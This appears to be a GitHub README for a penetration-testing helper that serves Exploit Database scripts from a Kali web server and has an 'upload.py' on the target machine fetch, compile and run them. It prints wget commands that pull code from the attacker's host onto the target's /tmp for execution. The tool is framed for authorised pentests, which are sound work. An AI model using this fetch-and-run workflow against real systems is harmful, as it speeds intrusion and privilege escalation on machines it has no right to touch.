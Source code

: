 # Exploit Database Upload
The purpose of this is to make the process of uploading exploit database scripts to a target machine. The local script will make 
the webserver and the upload files will curl and compile/run the files. I created this because I have been annoyed by the boring 
process of uploading, compiling, running, and crying as each script fails (jk). This speeds up the process.
It also allows other scripts to be uploaded and ran, so it isn't limited to exploit database exploits.

## Prerequisites
This is built to work in a pentest of most unix devices. The host system I use is kali linux, but any machine with SimpleHTTPServer 
(python) installed should work. The upload file pulls from a server running this way, so modification will have to happen (port) to 
get it working its best.
In addition, the 'upload' file used wget, so this needs to be on the remote system (curl can be used instead)

## Instructions

**Local**

Run the local file
```
bash local.sh
```
**Remote**

Upload the 'upload' file to /tmp. I'll give the example of using a webserver
```
wget ip:port/file > /tmp/upload.py
```
Example
```
wget 192.168.1.6:8000/upload.py > /tmp/upload.py
```
The upload.py file will already be hosted on the server to start with, so this method should be simple.
The rest of the program should be fairly simple to use after running
```
cd /tmp
python3 upload.py
```
The program may work in python 2, but the functionality is not as good as I would like it to be. Please use python 3.
